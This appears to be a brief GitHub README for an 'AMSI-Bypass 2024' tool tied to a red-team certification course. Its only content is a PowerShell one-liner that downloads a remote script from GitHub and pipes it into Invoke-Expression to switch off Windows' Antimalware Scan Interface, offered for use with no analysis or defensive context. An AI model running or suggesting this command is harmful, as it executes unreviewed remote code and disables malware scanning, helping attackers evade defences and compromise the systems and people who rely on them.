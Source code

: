 # AMSI-Bypass 2024

Bypass AMSI from CRTE Journey
## Command
```powershell
IWR "https://raw.githubusercontent.com/0xBugatti/AMSI-Bypass/refs/heads/main/MS-AMUpdate.ps1"|IEX
```
